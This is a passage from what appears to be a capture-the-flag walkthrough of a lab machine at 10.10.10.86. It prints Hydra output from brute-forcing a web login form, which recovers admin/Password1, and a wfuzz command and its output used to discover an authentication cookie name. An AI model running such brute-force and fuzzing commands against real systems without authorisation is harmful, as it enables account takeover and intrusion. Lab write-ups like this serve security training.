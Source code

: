     Hydra (http://www.thc.org/thc-hydra) starting at 2018-10-29 06:55:13
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 57377596 login tries (l:4/p:14344399), ~3586100 tries per task
    [DATA] attacking http-post-form://10.10.10.86:80//login:username=^USER^&password=^PASS^&submit=Login:failed
    [STATUS] 1569.00 tries/min, 1569 tries in 00:01h, 57376027 to do in 609:29h, 16 active
    [80][http-post-form] host: 10.10.10.86   login: admin   password: Password1
    

#### Logged In Site

On logging in, I get a page that lists items in stock:

![1548770704407](https://0xdfimages.gitlab.io/img/1548770704407.png)

At this point, this looks like a dead end. However, accessing this page, and
attempting to login, initiated something behind the scenes with memcache. I’ll
talk more about that when I get to it.

### HTTP - TCP 8080

At this point I’ll continue with port 8080.

#### Site

On visiting the site, I get back a message that my access is denied:

> Access denied: password authentication cookie not set

#### Fuzz Cookie

First, I need to figure out what the cookie is called. I’ll use `wfuzz`, and
notice that when I run it without any filters, everything returns 322
characters. So I’ll include the `--hh 322` to hide those responses. In doing
so, I find a potential cookie name, password:

    
    
    root@kali# wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: FUZZ" --hh 322 http://10.10.10.86:8080
    
    ********************************************************
    * Wfuzz 2.3.1 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.10.86:8080/
    Total requests: 2588
    
    ==================================================================
    ID   Response   Lines      Word         Chars          Payload    
    ==================================================================
    
    000005:  C=200     14 L       29 W          324 Ch        "password"
    
    Total time: 6.539661
    Processed Requests: 2588
    Filtered Requests: 2587
    Requests/sec.: 395.7391
    